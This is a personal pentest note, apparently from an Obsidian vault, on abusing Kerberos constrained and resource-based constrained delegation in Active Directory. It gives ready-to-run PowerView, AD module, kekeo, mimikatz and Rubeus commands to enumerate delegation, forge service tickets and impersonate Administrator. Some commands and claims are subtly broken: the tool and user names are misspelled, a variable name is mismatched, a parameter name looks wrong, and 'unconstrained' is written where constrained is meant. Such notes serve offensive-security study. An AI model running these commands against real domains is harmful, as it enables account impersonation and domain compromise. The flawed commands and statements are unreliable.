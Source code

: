 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#kekeo #mimikatz #powershell 
- [Unconstrained Delegation](Unconstrained%20Delegation.md) is dangerous, as it allows services to impersonate user and access any service.
- S4U restricts this and only allows delegation to certain services.
	- Service for User to Proxy (S4U2Proxy)
	- Service for User to Self (S4U2Self)
- No TGT is required in this extention.
### S4U2Self
- Kerberos delegation when the client does not support Kerberos protocol. (Protocol Transition)
- In this scenario, the service which has the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag set, can request a TGS for the another service for the user. 
### S4U2Proxy
This extension allows a service to request another service on behalf of the user by using `ST` instead of `TGT`.
The service can only ask for impersonation `ST` for certain services defined in one of the following ways:
- **Classic Constrained Delegation**: `msDS-AllowedToDelegateTo` attribute of the service account. It contains [SPN](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/AD%20Concepts/Services.md) of the services for which the service account can ask ST for. To edit this parameter, `SeEnableDelegationPrivilege` priv is required.
- **Resource Based Constrained Delegation**: The service account is mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target service for which the service account will ask ST for.
---
Constrained Delegation works in one of the two ways:
- S4U2Proxy (`TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`) + S4U2Self (Classic Constrained Delegation) (`msDS-AllowedToDelegateTo`)
	- The compromised user/machine account should have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` in the UAC, and the service for delegation should be mentioned in the `msDS-AllowedToDelegateTo` attribute of the compromised user/machine.
- S4U2Self (Resource Based Constrained Delegation) (`msDS-AllowedToActOnBehalfOfOtherIdentity`)
	- This moves the delegation authority to the the service/resource owner, instead of the administrator. Or in fact any user, having `Full` or `GenericWrite` over the target service.
	- The service account that can request ST should be mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the delegated service's service account.
# Exploitation
## Classic Constrained Delegation
Classing Constrained Delegation involves compromising a account with `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` and some SPNs in `msDS-AllowedToDelegateTo` attribute. We can simply tell the compromised user/computer account to ask for ST for the service mentioned in the `msDS-AllowedToDelegateTo`.
### Enumeration
- Enumerating users and computers which constrained delegation enabled using
- Powerview:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
- Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDeleagateTo
```
- Kekeo
```powershell
kekeo tgt::ask /user:svcIIS /domain:mydomain.local /password:Qwer1234.
# this will save the TGT file to the disk
# use this TGT to request TGS for the delegated service
kekeo tgs::s4u /tgt:<tgt_file> /user:<user_to_inpersonate> /service:<service_allowed_to_delegate_to>
# this will save the TGS to the disk
# we can load this ticket it memory
mimikatz kerberos::ptt <ticket_file>
```
- Rubeus
```powershell
# This will use the TGT of websvc to ask for ST of impersonator user to access the msdss delegated service, and inject the ticket in memory
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
> unconstrained delegation performs no validation for the service mentioned in the `msDS-AllowedToDelegateTo`, hence, we can request the ST for the intended service and modify the ticket for another service. We can the add the `/altservice:<protocol>` to rubeus to modify the service ticket. Hence, the below command will request ST for the `msdsspn` account and modify the service.
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt /altservice:ldap
```
## RBCD
RBCD exploitation Involves having write access to an object that we want to exploit.
- Set up RBCD attribute on the target service.
- Using AD Module
```powershell
# We should already have local admin access on the computer1 account.
$compputers = "mycomputer$";
Set-ADComputer -Identity targetcomputer -PrincipalsAllowedToDelegateTo $computers;
```
- Powerview
```powershell
# Set RBCD delegation
Set-DomainRBCD -Identity targetcomputer -DelegateFrom 'mycomputer$';
# We can verify the same using
Get-DomainRBCD
```
- We can now use the same s4u module from rubeus to impersonate a user
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
